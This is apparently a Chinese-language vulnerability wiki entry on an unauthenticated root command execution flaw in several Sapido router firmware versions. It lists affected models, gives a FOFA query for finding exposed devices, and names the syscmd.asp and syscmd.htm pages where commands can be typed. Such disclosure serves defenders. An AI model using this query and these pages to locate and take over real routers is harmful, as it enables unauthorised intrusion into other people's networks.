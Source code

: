 # Sapido多款路由器命令执行漏洞

## 漏洞描述

Sapido多款路由器在未授权的情况下，导致任意访问者可以以Root权限执行命令

## 漏洞影响

> [!NOTE]
>
> BR270n-v2.1.03
>
> BRC76n-v2.1.03
>
> GR297-v2.1.3
>
> RB1732-v2.0.43

## FOFA

> [!NOTE]
>
> app="Sapido-路由器"

## 漏洞复现

固件中存在一个asp文件为 **syscmd.asp** 存在命令执行

![](http://wikioss.peiqi.tech/vuln/sa-1.png)

访问目标:

```
http://xxx.xxx.xxx.xxx/syscmd.asp
http://xxx.xxx.xxx.xxx/syscmd.htm
```

![](http://wikioss.peiqi.tech/vuln/sa-2.png)

直接输入就可以命令执行了

